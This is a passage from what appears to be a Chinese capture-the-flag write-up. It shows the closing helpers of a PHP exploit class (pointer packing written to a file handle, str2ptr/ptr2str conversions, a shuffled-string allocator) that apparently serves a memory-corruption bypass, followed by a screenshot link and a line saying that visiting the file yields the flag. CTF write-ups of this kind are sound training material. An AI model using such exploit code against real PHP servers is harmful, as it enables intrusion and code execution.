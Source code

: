 ```php
        fwrite($this->hfp, pack('QQ', 0, $this->abc_addr));
        for($i = 0; $i < FILTER_SIZE - 0x10; $i++) {
            fwrite($this->hfp, "\x00");
        }
    }

    private function str2ptr($p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($this->abc[$p + $j]);
        }
        return $address;
    }

    private function ptr2str($ptr, $n = 8) {
        $out = '';
        for ($i = 0; $i < $n; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    private function log($format, $val = '') {
        if(LOGGING) {
            printf("{$format}\n", $val);
        }
    }

    static function alloc($size) {
        return str_shuffle(str_repeat('A', $size));
    }
}
?>
```

![image-20230415130831285](https://raw.githubusercontent.com/leekosss/photoBed/master/202304151308401.png)

访问该文件，得到flag

